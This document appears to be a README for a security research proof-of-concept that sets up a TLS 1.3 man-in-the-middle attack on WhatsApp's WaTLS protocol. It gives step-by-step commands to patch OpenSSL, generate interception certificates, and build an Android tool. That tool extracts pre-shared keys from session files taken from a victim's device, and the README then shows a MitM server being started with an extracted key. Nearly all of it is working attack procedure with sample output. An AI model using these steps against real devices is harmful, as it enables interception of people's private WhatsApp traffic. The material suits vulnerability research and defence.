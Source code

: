 # TLS v1.3 (WaTLS) MitM toolset for WhatsApp

This directory contains the tooling required for performing TLS v1.3 (WaTLS)
MitM against WhatsApp.


## Preparation

In the following we assume environment variable `$POC` points to the root
directory of this repository.

Prepare OpenSSL 1.1.1f source code for TLS v1.3 MitM:

    cd /tmp
    curl -O https://ftp.openssl.org/source/old/1.1.1/openssl-1.1.1f.tar.gz
    tar -zxvf openssl-1.1.1f.tar.gz
    mv openssl-1.1.1f openssl-1.1.1f-watls
    cd openssl-1.1.1f-watls
    patch -p1 < $POC/openssl-1.1.1f-patches/watls-mitm.patch
    ./config -d no-shared
    make -j8

Generate server certificate and keys for MitM:

    cd $POC/secrets
    ./gen_certs.sh

Prepare environment variables:

    export OPENSSL_SRC=/tmp/openssl-1.1.1f-watls
    export SECRETS=$POC/secrets

Your current directory should now be `$POC/watls_psk_extract`.

Now, we need to build a simple Android command line application that will be
used to extract PSKs from WaTLS serialized session files, exfiltrated from a
victim's device. This process requires access to the WhatsApp APK, so, (1) it
must be carried out on an Android device and (2) WhatsApp needs to be installed
on that device.

Fist, set `SDK_DIR` to the directory of the Android SDK, and `JAVA_HOME` to the
location of the Java compiler and call `make`:

    export SDK_DIR=/opt/android-sdk
    export JAVA_HOME=/usr
    make

To deploy the application on an Android device:

    # Required only if you multiple devices attached on your computer
    export ANDROID_SERIAL=123456789abcdef

    make deploy

To make sure deployment was successful:

    $ cd /data/local/tmp/watls_psk_extract
    $ ls -la
    total 22
    drwxrwxrwx  2 shell shell 3488 2021-03-12 13:42 .
    drwxrwx--x 11 shell shell 3488 2021-03-12 13:42 ..
    -rw-rw-rw-  1 shell shell 8212 2021-03-12 13:42 classes.dex
    -rwxrwxrwx  1 shell shell  235 2021-02-11 16:52 run.sh


## Usage

Generally, the workflow consists of the following steps:

* Serialized session files are exfiltrated during the *information gathering*
  phase, as described in our blog post

* The serialized session files are uploaded on the attacker's device using
  `adb push`

* The abovementioned Android application is used, on the attacker's device, in
  order to extract the PSKs from the serialized session files

* The PSKs are used to start an OpenSSL `s_server` instance for performing the MitM

To begin with, let's assume that during the information gathering phase,
**session.bin** was exfiltrated from the victim's device.

Upload it on your own device:

    adb push session.bin /data/local/tmp/watls_psk_extract

Extract the PSK:

    $ adb shell
    $ cd /data/local/tmp/watls_psk_extract
    $ ./run.sh session.bin
    [*] Extract PSKs from WaTLS session session.bin
    [*] Top-level SNI media-sof1-1.cdn.whatsapp.net
    [*] Id 8f SNI media-sof1-1.cdn.whatsapp.net PSK 6c017db24058a02460f75acd6084d195edb21529687a73c89d562e6f6c77a62f

Last but not least, run the following script to start the MitM server and pass
it the extracted PSK:

    ./run_server.sh 6c017db24058a02460f75acd6084d195edb21529687a73c89d562e6f6c77a62f

